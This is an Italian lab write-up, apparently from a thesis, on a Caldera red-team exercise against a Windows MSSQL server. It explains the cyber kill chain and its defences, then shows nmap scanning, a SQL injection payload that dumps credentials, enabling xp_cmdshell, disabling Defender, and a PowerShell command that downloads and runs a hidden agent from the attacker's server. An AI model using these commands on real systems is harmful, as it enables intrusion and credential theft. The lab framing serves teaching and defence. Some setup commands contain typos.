Inoltre, al fine di racchiudere in un unico contesto le risorse scaricare, è stato creato un ambiente virtuale Python in cui sono stati esportati tutti i file di configurazione di Caldera. Come versione scelta per l'interpretazione dei comandi si è optato per la \texttt{3.10.14} grazie alla risorsa \textsc{pyenv} che permette di installare più versioni di Python nell'host, poiché la più recente potrebbe creare problemi durante l'installazione delle librerie richieste dal framework presenti nel file \texttt{caldera/requirements.txt}.
\begin{Verbatim}[breaklines=true]
    curl https://pyenv.run | bash
\end{Verbatim}
Dopo aver scaricato i file necessari, bisogna aggiungere il path alla configurazione della shell scritta in \texttt{.bashrc} (o \texttt{.zshrc} a seconda della distribuzione).
\begin{Verbatim}
    export PATH="$HOME/.pyenv/bin:$PATH"
    export PYENV_ROOT="$HOME/.pyenv"
    export PATH="$PYENV_ROOT/bin:$PATH"
    eval "$(pyenv init -)"
    eval "$(pyenv virtualenv-init -)"
\end{Verbatim}
\vspace{0.5em}
Una volta installato bisognerà semplicemente riavviare la shell e sarà possibile utilizzare i comandi di \textsc{pyenv}.
\vspace{0.5em}
\begin{Verbatim}
    pyenv install 3.10.14
    pynev global 3.10.14 # Per utilizzare la versione installata
\end{Verbatim}
\vspace{0.5em}
Si proceda al setup dei requisiti in \texttt{caldera/requirements.txt} solo dopo essere certi di star usando la versione di Python adatta (si consiglia la stessa di questo progetto o una precedente alla 3.13)
Ora rimane la questione del come riuscire a comunicare con il server MSSQL attraverso la macchina attaccante, la risposta si trova nel tool ufficiale Microsoft \texttt{sqlcmd} il quale è un validissimo strumento interattivo ed affidabile per quanto riguarda scripting, query ed autenticazione. È possibile scaricarlo tramite terminale nella propria distribuzione Linux Ubuntu attraverso una serie di comandi script (nel sito web ufficiale di Microsoft si fa riferimento solo ad un'installazione per Ubuntu 24.04; tuttavia è compatibile anche con la 25.04 senza nessun errore di dipendenze ma, nel caso si dovessero riscontrare, è consigliabile utilizzare un docker).
Con i privilegi root, si registra e si installa la repository di Microsoft su Ubuntu.
\vspace{0.5em}
\begin{Verbatim}
    curl -sSL -O https://packages.microsoft.com/config/ubuntu/ \
    24.04/packages-microsoft-prod.deb

    sudo dkpg -i package-microsoft-prod.deb
\end{Verbatim}
\vspace{0.5em}
È bene aggiornare la lista di risorse del sistema, dopodiché si esegue il comando per installare il tool grazie all'unixODBC package.
\vspace{0.5em}
\begin{Verbatim}
    sudo apt-get update
    sudo apt-get install mssql-tools18 unixodbc-dev
\end{Verbatim}
\vspace{0.5em}
Nel caso si richieda di aggiornare il tool, basterà lanciare questo semplice script.
\vspace{0.5em}
\begin{Verbatim}
    sudo apt-get update
    sudo apt-get install mssql-tools18
\end{Verbatim}
\vspace{0.5em}
Per verificare la corretta implementazione, effettuiamo un test di connessione in cui accediamo con credenziali precedentemente create nel server e come output dovrebbe uscire qualcosa di simile alla figura sottostante:
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth,trim= 1 0 0 1,clip]{images/SqlCMD_screen.png}
    \caption{Risultato query su versione database}
\end{figure}
Dopo aver avuto conferma della corretta installazione di \texttt{sqlcmd} siamo pronti ad iniziare il nostro laboratorio sulla macchina Windows.
\chapter{Kill Chain}
Iniziamo con lo spiegare cosa sia effettivamente una kill chain, o Cyber Kill Chain. Il termine è stato coniato nel 2011 e pubblicato all'interno di un white paper dall'azienda americana \textsc{Lockheed Martin}. La kill chain definisce una sorta di quadro analitico per scomporre e comprendere le varie fasi di un attacco informatico.\\
Tutta la definizione si basa sull'idea che un cyber attacco, per avere successo, necessita di passare attraverso sette fasi consecutive formando una vera e propria catena di azioni; quindi, onde evitare un danno economico o la violazione dei propri sistemi, bisogna rompere uno degli anelli di questa catena per fermare l'attacco in corso.\cite{cyber_kill_chain}

\section{Ciclo di vita}
Grazie al lavoro di \textsc{Lockheed Martin}, le aziende sono ora in grado di comprendere e mitigare lo svolgimento di attacchi analizzando le fasi che si susseguono durante un tentativo di violazione e programmare le difese più adatte per ogni step.\\
Qui di seguito, spieghiamo le varie fasi della kill chain nell'ordine in cui avvengono.\cite{kill_chain}\\[1.5em]
{\bfseries\Large{\textbf{Ricognizione}}}\\[1em]
Mettendosi per un momento dentro la mente di un utente malevolo, o black hat, la prima domanda che ci si pone è: \textit{"che tipo di sistema mi presto a violare e come riesco a superare le sue difese in modo da entrarvi?"}\\
In questa fase, l'attaccante cerca di raccogliere tutte le informazioni possibili sul target senza allarmare gli eventuali tool di sicurezza al suo interno; tutto ciò per localizzare delle vulnerabilità da poter sfruttare per penetrare nel sistema. Si può condurre questa ricerca attraverso due tipi di ricognizione:
\begin{itemize}
    \item \textbf{Passiva:} Chiamata così perché non si entra in contatto diretto con il sistema bersaglio. L'hacker mira ad ottenere la maggior quantità di informazioni, anche da file o database pubblici, senza il rischio di mettere in guardia la difesa del target. Siccome la nostra è una simulazione senza una vera organizzazione concreta, questo passaggio lo escludiamo e ci concentriamo sul prossimo.
    \item \textbf{Attiva:} Al contrario, entra in diretto contatto con il sistema target aumentando il rischio di essere individuato poiché si lasciano delle tracce, ma presenta il vantaggio di entrare in possesso di preziosi dettagli in più sulla vulnerabilità dell'host. Tra le tecniche principali di ricognizione attiva ci sono il mapping della rete, porte e vulnerabilità.\\Nella nostra esercitazione andremo ad effettuarle tutte in modo da mostrare ogni possibile scenario grave che può verificarsi.
\end{itemize}
Per difendersi da questa fase, è importante monitorare costantemente la visibilità online dell'azienda ed aumentare l'attenzione del dipendente sui contenuti che pubblica nei social network; verificare i log e utilizzare strumenti in grado di individuare possibili attività sospette di raccolta informazioni.\\

\noindent
{\bfseries\Large{\textbf{Armamento}}}\\[1em]
Dopo aver raccolto sufficienti informazioni sul bersaglio, queste si utilizzano per creare malware e trovare delle tecniche in grado di sfruttare le debolezze individuate. Bloccare l'attacco in questa specifica fase è quasi impossibile, poiché molto del lavoro viene effettuato in sistemi esterni alla rete; l'unica tattica di difesa è il continuo monitoraggio e aggiornamento della propria infrastruttura in modo da colmare qualsiasi vulnerabilità che può costituire un vettore di attacco.\\

\noindent
{\bfseries\Large{\textbf{Consegna}}}\\[1em]
Una volta preparato, il criminale informatico deve assicurarsi che il malware arrivi alla vittima e che questo avvenga in un punto in cui è in grado di provocare il maggior numero di danni possibili. Nel nostro caso, non andremo a sviluppare un software malevolo bensì svilupperemo una query adatta ad ottenere dati sensibili; possiamo considerarla come la "consegna".\\ 
Per contrastare questa fase, bisogna prevenire e bloccare l'accesso a contenuti malevoli. Questo è realizzabile mediante un aumento della consapevolezza delle minacce da parte dei dipendenti e dei collaboratori e l'implementazione di dispositivi di sicurezza quali firewall, sandbox o programmi anti-virus. Infine, monitorando il traffico di rete, in entrata e uscita, si individuano i tentativi di penetrazione nella rete.\\ 

\noindent
{\bfseries\Large{\textbf{Sfruttamento}}}\\[1em]
Questa fase rappresenta la semplice attivazione del payload inviato e consegnato al target; è necessario per prendere il controllo del sistema e continuare con le fasi successive. Per difendersi è fondamentale bloccare l'avvio di software non riconosciuti o considerati dannosi per via della loro impronta digitale. Grazie alle componenti spiegate in precedenza (v. \ref{blue}), analizzando i log delle attività nel sistema, è possibile bloccare tentativi di avvio e iniziare azioni precauzionali contro i programmi identificati come malevoli per l'infrastruttura.\\

\noindent
{\bfseries\Large{\textbf{Installazione}}}\\[1em]
Dopo lo sfruttamento, la fase di installazione consolida l'avvenuto accesso al sistema vittima e, inoltre, permette un accesso permanente nel tempo e discreto per l'attaccante attraverso l'installazione di una \textit{backdoor} o la creazione di un utente legittimo. Avendo un agente all'interno dell'host, il nostro accesso permanente ruota intorno a Caldera grazie al quale possiamo controllare e comunicare col software installato. Un ipotetico Blue Team può individuare questa \textit{backdoor} mediante dei controlli nelle modifiche della configurazione dell'host in questione rispetto a quella standard, verifica dei certificati di tutti i file eseguibili firmati e con l'utilizzo dell'autenticazione a due fattori in modo da rafforzare la sicurezza.\\

\noindent
{\bfseries\Large{\textbf{Comando \& Controllo (C2)}}}\\[1em]
A questo punto si è creato un canale di comunicazione tra il tool installato e l'attaccante; grazie a questo è possibile avviare una serie di operazioni e comandi da far eseguire all'host ormai compromesso. Più avanti sarà mostrato come Caldera riesca ad automatizzare questa fase grazie ai TTPs già presenti nel framework. Vi sono diverse tecniche di difesa per interferire o bloccare il canale di comunicazione: un server proxy, forza tutto il traffico a passare attraverso esso creando un choke-point e consente di ispezionare e, eventualmente, filtrare le connessioni considerate minacciose o un DNS sinkhole che risponde alle query DNS per domini malevoli, restituendo un indirizzo controllato, possibilmente di un honeypot o una sandbox in modo da analizzare la richiesta dell'attaccante. Si consiglia l'utilizzo di NIDS per rilevare attività insolite mediante il riconoscimento di signature o comportamenti anomali.\\

\noindent
{\bfseries\Large{\textbf{Azioni finali}}}\\[1em]
Siamo nella fase finale dell'attacco, l'utente malevolo effettua delle azioni che mirano a raggiungere gli obiettivi dell'attacco: divulgazione dei dati privati dell'azienda, crittografia dei dischi con annesso ricatto per la decifrazione (ransomware) e simili. Per salvaguardare i propri asset, l'organizzazione deve conservare diversi backup in supporti offline e mantenerli aggiornati il più possibile.\\
Rimane importante il costante monitoraggio delle azioni sul database, la creazione di un piano di risposta a possibili incidenti e la protezione dei dati presenti mediante la crittografia.

\section{Cyber Kill Chain Matrix}
Dopo aver compreso e studiato le singole fasi di una kill chain ed aver implementato per ognuna di esse le contromisure più sicure, l'azienda in questione ha la possibilità di creare una matrice di controllo della Cyber Kill Chain. L'obiettivo di questa è enumerare i meccanismi di protezione che l'organizzazione ha implementato rispetto ad ogni singola fase, al fine di determinare come i team di sicurezza possano contribuire ad interrompere ed eliminare un attacco informatico.
\vspace{1em}
\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{images/Kill_chain_matrix.png}
    \caption{Esempio di Cyber Kill Chain Matrix}
\end{figure}
\vspace{1em}
Nella matrice sono presenti 6 voci, in corrispondenza delle righe, correlate alle fasi della kill chain descritte in precedenza; mentre nelle 6 colonne sono enunciate le cosiddette "linee di azione".\\ 
Esse categorizzano le metodologie di contrasto da adottare in base alla singola fase:
\begin{enumerate}
    \item \textit{\textbf{Detect:}} Adottare strumenti in grado di identificare l'attaccante.
    \item \textit{\textbf{Deny:}} Negare la ripetizione di eventi dannosi.
    \item \textit{\textbf{Disrupt:}} Interrompere il traffico instaurato con l'aggressore.
    \item \textit{\textbf{Degrade:}} Rallentare le azioni dell'attaccante, limitandone privilegi ed effetti.
    \item \textit{\textbf{Deceive:}} Attirare l'attenzione dell'attaccante verso sistemi protetti o di analisi, in modo da distogliere il focus su architetture sensibili.
    \item \textit{\textbf{Contain:}} Limitare il danno provocato da un'intrusione.
\end{enumerate}
La matrice mappa i sistemi di difesa presenti nell'organizzazione ed offre una sintesi di come l'azienda è in grado di contrattaccare; in particolare, mette in evidenza le aree non controllate in modo che gli amministratori di sicurezza si mobilitino per colmare le lacune identificate.

\section{Operazioni di Red Teaming}
Prima di immergersi nelle fasi della Cyber Kill Chain sviluppata, è bene elencare una serie di premesse al fine di caratterizzare al meglio il contesto in cui ci troviamo in questa esercitazione, in special modo quali sono i "limiti" impostati.\\
Come spiegato in precedenza, quando un'azienda investe nel progettare un'esercitazione di Red Teaming sulla proprio infrastruttura di rete, si accorda con la squadra (squadre se si parla di Purple Teaming) per decidere quali saranno gli ambiti in cui andranno maggiormente a lavorare; possiamo considerarla una specie di policy o regole da seguire durante l'intera operazione. L'obiettivo di questo progetto mira alla presa di coscienza dei rischi che si possono correre quando un host viene compromesso, specialmente in un'organizzazione molto sviluppata.\\
Non si è entrati molto nello specifico nelle impostazioni come le regole del firewall o il controllo delle autorizzazioni/autenticazioni; poiché sarà poi compito di chi farà uso della macchina, riorganizzare e reimpostare le varie feature a proprio piacimento per eventuali assessment delle proprie difese.\\
Nello scenario che si andrà a presentare, entrambi gli attori si trovano all'interno della stessa rete privata \texttt{192.168.56.0/24} e possiamo rappresentare l'attaccante come un cliente dei servizi resi disponibili, se non addirittura uno degli impiegati che ha deciso di andarsene o che nutre rancore nei confronti dell'azienda per essere sottopagato da troppo tempo. Inoltre, considerando uno dei due scenari possibili, assumiamo che l'utente malevolo in questione sia consapevole della presenza di un server MSSQL all'interno della rete di cui usufruirà per completare il suo piano di attacco.
\vspace{1em}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\textwidth]{images/EnterpriseNet.png}
    \caption{Diagramma rete aziendale}
\end{figure}
\vspace{1em}
Molteplici sono gli use case disponibili in Caldera da utilizzare all'interno di una macchina Windows. È possibile saltare la fase di inserimento dell'agente nel sistema, riducendola ad un semplice spegnimento di Windows Defender in modo da poter avviare lo script in Powershell; ma, per rendere il laboratorio più interessante ed esplorare un tipo di vettore d'attacco comune, è stato deciso di integrare lo sfruttamento di una vulnerabilità in modo da caricare l'agente. 

    \subsection{Individuazione exploit}
    Cominciamo l'infiltrazione tramite il terminale della macchina Ubuntu con Caldera. Nella nostra rappresentazione d'attaccante, in primis ci chiediamo quanti siano i dispositivi presenti all'interno della nostra stessa subnet. Per rispondere a questa domanda ci avvaliamo del tool descritto nei capitoli precedenti (v. \ref{red}), ossia \texttt{nmap}. Grazie al comando seguente individuiamo un elenco di tutti gli host presenti (senza lo scan delle porte):
    \vspace{0.5em}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=\textwidth]{images/Host_discovery.png}
        \caption{Comando per la scoperta di host attivi}
    \end{figure}
    \begin{itemize}
        \item \texttt{192.168.56.0/24}: La sottorete target in notazione CIDR. Rappresenta tutti gli indirizzi da \texttt{192.168.56.1} a \texttt{192.168.56.254}.
        \item \texttt{-sn}: Invia un segnale ICMP ed attende la risposta per verificare se l'indirizzo scandito è online oppure no.
        \item \texttt{-PR}: Forza ad inviare un segnale ARP. 
    \end{itemize}
    L'ultimo flag è stato usato perché, nelle nostre premesse, abbiamo posto la macchina attaccante nella stessa subnet del bersaglio. Altrimenti, non sarebbe stato possibile ricevere risposta (v. \ref{red}). L'output del comando ci informa che, oltre a noi, è presenta un unico host bersaglio su cui possiamo lavorare.\\
    Dando per scontato che si tratti del sistema in cui è presente il server Microsoft, andiamo ad analizzare i servizi e le porte disponibili sempre mediante \texttt{nmap}:
    \vspace{0.5em}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=\textwidth]{images/Service_discovery.png}
        \caption{Comando per la scoperta di porte e servizi di un host}
    \end{figure}
    \begin{itemize}
        \item \texttt{-Pn}: Considera l'host specificato come attivo. Quindi, avvia direttamente lo scanning delle porte.
        \item \texttt{-sS}: Invia un segnale TCP SYN senza completare l'handshake della connessione; in pratica, interpreta solo la risposta.
        \item \texttt{-sV}: Indaga il nome e la versione dei servizi aperti grazie a diverse richieste a livello di applicazione.
        \item \texttt{-O}: Tenta di identificare la versione del sistema operativo installato studiando il fingerprinting dello stack TCP/IP 
        \item \texttt{-T4}: Velocizza l'analisi incrementando il parallelismo e diminuendo vari timeout di richieste.
    \end{itemize}
    Sono stati identificati tutti i servizi configurati precedentemente, insieme alla versione giusta di Windows (v. \ref{win}). Questa è l'ennesima dimostrazione di quanto questo tool sia tanto versatile quanto pericoloso, se usato con scopi illegali.\\
    A questo punto, siamo venuti a conoscenza delle difese, porte e servizi presenti nel server analizzato. Per avere piena mobilità nelle azioni all'interno di esso, necessitiamo dei privilegi da amministratore e questo ci porta a una sola conclusione: bisogna ottenere le credenziali del System Amministrator.\\
    Prepariamo la query maligna in modo da farci restituire tutti i dati dei dipendenti che si sono registrati nella piattaforma immaginaria. Invieremo al server i seguenti payloads:\vspace{0.5em}
    \begin{Verbatim}
        Username = sa' UNION SELECT * FROM Users--
        Password = # Qualsiasi stringa va bene
    \end{Verbatim}
    \vspace{0.5em}
    Sfruttando la sintassi di SQL, il controllo delle password viene fatto diventare un semplice commento grazie ai caratteri \texttt{--}. Il risultato contiene id, username e password di tutti gli utenti, compreso quello dell'amministratore del sistema.\vspace{0.5em}
    \begin{figure}[H]
        \centering
        \includegraphics[width=\textwidth, trim=2 0 0 2, clip]{images/Get_data.png}
        \caption{Dati restituiti dopo SQLi}
    \end{figure}

    \subsection{Inserimento agente\label{firewall}}
    Siamo riusciti ad entrare in possesso delle credenziali dell'admin. Ora è possibile accedere da remoto come amministratore ed abilitare la funzione che ci permetterà di inserire l'agente nella macchina Windows, ossia \texttt{xp\_cmdshell}.\\
    Iniziamo accedendo, da remoto, al server di database ed inserendo le credenziali del System Administrator in nostro possesso.
    \begin{figure}[H]
        \centering
        \includegraphics[width=\textwidth, trim=3 0 0 0, clip]{images/Connect_sa.png}
        \caption{Connessione riuscita con credenziali admin}
    \end{figure}
    Eseguendo una serie di comandi, è possibile abilitare \texttt{xp\_cmdshell} da terminale senza intoppi.\vspace{0.5em}
    \begin{figure}[H]
        \centering
        \includegraphics[width=\textwidth, trim= 3 0 0 0, clip]{images/XP_on.png}
        \caption{Abilitazione funzione xp\_cmdshell}
    \end{figure}
    Prima di andare ad eseguire l'installazione dell'agente, è bene ricordare che Windows Defender lo considera, giustamente, una minaccia per il sistema. Grazie ai privilegi ottenuti dall'amministratore, andiamo a disattivare Defender tramite il seguente comando.\vspace{0.5em}
    \begin{figure}[H]
        \centering
        \includegraphics[width=\textwidth, trim=2 0 0 0, clip]{images/Firewall_off.png}
        \caption{Disattivazione firewall tramite xp\_cmdshell}
    \end{figure}
    Ora non resta altro che inviare il comando per collegare l'agente al server Caldera ed abilitare le operazioni preparate.
    \begin{Verbatim}[breaklines=true, breakanywhere=true]
        $server="http://192.168.56.102:8888";
        $url="$server/file/download";
        $wc=New-Object System.Net.WebClient;
        $wc.Headers.add("platform","windows");
        $wc.Headers.add("file","sandcat.go");
        $data=$wc.DownloadData($url);
        get-process | ? {$_.modules.filename -like "C:\Users\Public\caldera.exe"} | stop-process -f;rm -force "C:\Users\Public\caldera.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\caldera.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\caldera.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
    \end{Verbatim}
    Basterà fare un controllo nella sezione \textit{Agents} del server Caldera per confermare l'inserimento dell'agente. 

    \subsection{Avversario "Defense Evasion" (use case 1)}
    Nelle prossime righe si descrive un'operazione effettuata da uno dei numerosi \textit{adversaries} default offerti da Caldera. È stato scelto il profilo di "Defense Evasion"; il profilo in questione raccoglie una serie di tecniche finalizzate a minimizzare la possibilità di essere rilevato e rappresenta un ottimo challenge per il team di sicurezza dell'azienda attaccata.\\
    Come descritto nel capitolo sul framework (v. \ref{cald}), tutte le singole \textit{abilities} sono completamente automatizzate. La schermata risultante appare simile a questa.
    \begin{figure}[H]
        \centering
        
\includegraphics[width=\textwidth, trim=2 0 0 2, clip]{images/DefOp.png}
        \caption{Parte delle abilità presenti in "Defense Evasion"}
    \end{figure}
    \begin{itemize}
        \item \textbf{Time Ran:} Timestamp dell'inizio di esecuzione dell'\textit{ability}.
        \item \textbf{Status:} Stato dell'\textit{ability} in svolgimento.
        \item \textbf{Ability Name:} Nome dell'\textit{ability} in gioco.
        \item \textbf{Tactic:} Tattica ATT\&CK da cui l'\textit{ability} è presa.
        \item \textbf{Agent:} ID dell'\textit{agent} esecutore.
        \item \textbf{Host:} Macchina compromessa in cui l'\textit{agent} è presente.
        \item \textbf{PID:} ID del processo corrente nella macchina compromessa.
        \item \textbf{Link Command:} Comando eseguito.
        \item \textbf{Link Output:} Output generato a seguito dell'\textit{ability} (può essere vuoto).
    \end{itemize}
    In questo caso, si sono presentate due \textit{abilities} che sono fallite per via di timeout o incorretta implementazione di questa. È bene controllare e configurare i comandi eseguiti in base all'architettura su cui si vuole lavorare. Utilizzando un profilo predefinito bisogna aspettarsi delle incompatibilità come in questo test.\\
    Tramite Caldera, è disponibile un'opzione importante che permette di "pulire" le tracce rimaste dall'esecuzione delle \textit{abilities}, ignorando l'esito che queste hanno dato. A fine operazione, scarichiamo il resoconto preparato da Caldera disponibile in 3 diversi formati:
    \begin{enumerate}
        \item \textbf{Full Report:} Rappresenta il resoconto completo dell'operazione eseguita. In essa sono inclusi: il profilo seguito, gli \textit{agents} in gioco, tutti i \textit{link} eseguiti, i \textit{facts} scoperti, dettagli sulle \textit{abilities} e una semplice rappresentazione degli output generati. Il formato \texttt{.json} permette una revisione forense; inoltre, il report può essere inviato ad un altro sistema tramite una chiamata API.\\[1em]
        \begin{figure}[H]
            \vspace{-1.5em}
            \centering
            
\includegraphics[width=\textwidth]{images/Full_report.png}
            \caption{Lista resoconto completo "Defensive Evasion"}
        \end{figure}
        \item \textbf{Event Logs:} Una versione più leggera del log che si concentra nei tempi registrati durante gli eventi. Salva gli istanti in cui i \textit{links} sono eseguiti, il loro stato e le informazioni sui tempi.\\[1em]
        \begin{figure}[H]
            \vspace{-1.5em}
            \centering
            
\includegraphics[width=\textwidth]{images/Event_Logs.png}
            \caption{Lista resoconto links di "Defensive Evasion"}
        \end{figure}
        \item \textbf{CSV:} Una visione tabellare dei \textit{links} eseguiti. Racchiude nelle colonne le proprietà più significative dell'\textit{ability} svolta (timestamp, ID, result, ecc.).\\ È un'ottima scelta per mostrare il risultato dell'operazione ad utenti meno esperti, con la possibilità di una rapida analisi attraverso strumenti come Excel.
    \end{enumerate}

    \subsection{Creazione avversario (use case 2)}
    Come secondo use case, ho raccolto una collezione semplice di \textit{abilities} che concentrano le loro azioni nelle tecniche di \textsc{collection} ed \textsc{exfiltration} di dati e processi. Durante la creazione del \textit{adversary}, l'ordine secondo cui vengono eseguiti i \textit{links} è importante, per via dei \textit{facts} che devono essere soddisfatti, in modo da generare quelli seguenti.\\
